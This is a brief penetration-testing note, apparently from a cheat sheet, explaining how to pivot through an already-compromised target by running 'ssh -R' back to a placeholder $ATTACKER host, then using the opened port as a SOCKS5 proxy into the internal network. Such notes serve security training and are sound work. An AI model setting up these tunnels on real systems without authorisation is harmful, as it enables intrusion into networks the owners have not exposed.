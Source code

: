 # Use SSH as a Proxy

You can use SSH as a SOCKS5 proxy (with a tool like proxychains) using remote port forwarding.

You need to already have access to a $TARGET machine. SSH from the $TARGET back to the $ATTACKER box:

```bash
ssh -R $PORT $USER@$ATTACKER
```

This will open up $PORT on $ATTACKER, which can then be used as a SOCKS5 proxy by applications on $ATTACKER. Useful for gaining access to machines on an internal network that may be visible to $TARGET but not $ATTACKER.

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
